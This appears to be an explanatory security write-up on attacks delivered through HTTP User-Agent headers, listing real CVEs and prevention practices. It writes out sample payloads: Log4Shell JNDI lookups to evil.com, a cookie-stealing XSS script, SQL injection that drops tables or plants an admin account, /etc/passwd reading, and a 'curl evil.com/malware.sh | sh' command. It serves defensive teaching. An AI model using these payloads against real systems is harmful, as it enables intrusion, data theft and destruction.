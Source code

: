 ## How Attackers Exploit User-Agent Headers

### 1. **Denial of Service (DoS) Attacks**
An attacker could edit their own headers, creating an arbitrarily long useragent string, causing the event loop and server to block

**Example:**
```http
User-Agent: Mozilla/5.0AAAAAAAAAA[... 10MB of repeated characters ...]AAAAAAA
```

### 2. **Log4j Injection (CVE-2021-44228 & Related)**
The infamous Log4Shell vulnerability allowed attackers to inject malicious JNDI lookups through any logged input, including User-Agent headers.

**Attack Example:**
```http
User-Agent: Mozilla/5.0 ${jndi:ldap://evil.com/exploit}
```

When logged by Log4j, this would trigger remote code execution.

### 3. **SQL Injection via User-Agent**
SQL injection vulnerabilities have been found in applications that log or store User-Agent strings in databases without proper sanitization, including CVE-2022-23305 affecting Apache Log4j V1

**Attack Example:**
```http
User-Agent: Mozilla/5.0'; DROP TABLE users; --
```

### 4. **XSS (Cross-Site Scripting)**
When User-Agent strings are displayed in admin panels or logs without proper encoding:

**Attack Example:**
```http
User-Agent: <script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
```

### 5. **Server-Side Template Injection (SSTI)**
```http
User-Agent: {{7*7}} or ${7*7} or <%=7*7%>
```

### 6. **Command Injection**
When User-Agent is passed to system commands:
```http
User-Agent: Mozilla/5.0; cat /etc/passwd
```

## Real-World CVEs and Cases

### 1. **CVE-2021-44228 (Log4Shell)**
- **Impact:** Critical RCE in Apache Log4j
- **User-Agent Attack:** `${jndi:ldap://attacker.com/exploit}`
- **Affected:** Millions of applications worldwide

### 2. **CVE-2022-23305 (Log4j SQL Injection)**
Apache Log4j 1.x JDBC Appender SQL injection vulnerability where malicious input through logged data (including User-Agent) could lead to SQL injection

### 3. **Useragent Library DoS (Multiple CVEs)**
The Useragent parsing library had vulnerabilities where maliciously crafted User-Agent strings could cause server blocking through regex complexity attacks

### 4. **Piwigo CMS SQL Injection**
A real GitHub security advisory exists for SQL injection through User-Agent headers in photo gallery software.

## Attack Scenarios in Practice

### **Scenario 1: Analytics Dashboard Attack**
```python
# Vulnerable code
cursor.execute(f"INSERT INTO visitors (ip, user_agent) VALUES ('{ip}', '{user_agent}')")
```

**Attack:**
```http
User-Agent: '; INSERT INTO admin_users (username, password) VALUES ('hacker', 'password123'); --
```

### **Scenario 2: Admin Panel XSS**
```php
// Vulnerable display in admin panel
echo "Visitor used: " . $_SERVER['HTTP_USER_AGENT'];
```

**Attack:**
```http
User-Agent: <img src=x onerror=alert('XSS')>
```

### **Scenario 3: Log Processing RCE**
```bash
# Vulnerable log processing script
grep "$USER_AGENT" /var/log/access.log | wc -l
```

**Attack:**
```http
User-Agent: Mozilla; $(curl evil.com/malware.sh | sh)
```

## Why User-Agent Attacks Are Effective

1. **Often Overlooked:** User-Agent based attacks are a low-key risk that shouldn't be overlooked
2. **Widely Logged:** Most applications log User-Agent strings
3. **Rarely Validated:** Developers assume User-Agent is "just metadata"
4. **Persistent:** Stored in databases and log files
5. **Trusted Context:** Often processed in administrative contexts

## Prevention Best Practices

1. **Input Validation:** Limit length and validate characters
2. **Output Encoding:** Always encode when displaying
3. **Parameterized Queries:** Never concatenate User-Agent into SQL
4. **Logging Sanitization:** Clean User-Agent before logging
5. **WAF Rules:** Block suspicious patterns
6. **Regular Updates:** Keep parsing libraries updated

The User-Agent header represents a significant attack surface because it's user-controlled input that's often trusted and logged without proper validation. My enhanced analyzer addresses these real-world attack vectors comprehensively.
